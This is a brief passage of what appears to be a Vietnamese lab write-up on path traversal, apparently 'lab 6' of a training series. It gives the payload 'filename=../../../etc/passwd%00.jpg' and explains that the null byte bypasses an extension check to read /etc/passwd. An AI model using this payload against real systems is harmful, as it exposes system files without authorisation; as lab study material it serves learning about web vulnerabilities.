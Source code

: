 + step 2: Exploit

  - payload:

        img?filename = ../../../etc/passwd%00.jpg 

![347152188-ec73d3a0-02c0-4644-bebc-0385c76aa5c6](https://github.com/user-attachments/assets/654058d3-34ed-4199-8269-327623e41ce4)


=> %00 null byte để khi hệ thống quét xong /etc/passwd thì sẽ quét đến extension là .jpg 

=> solve lab 6
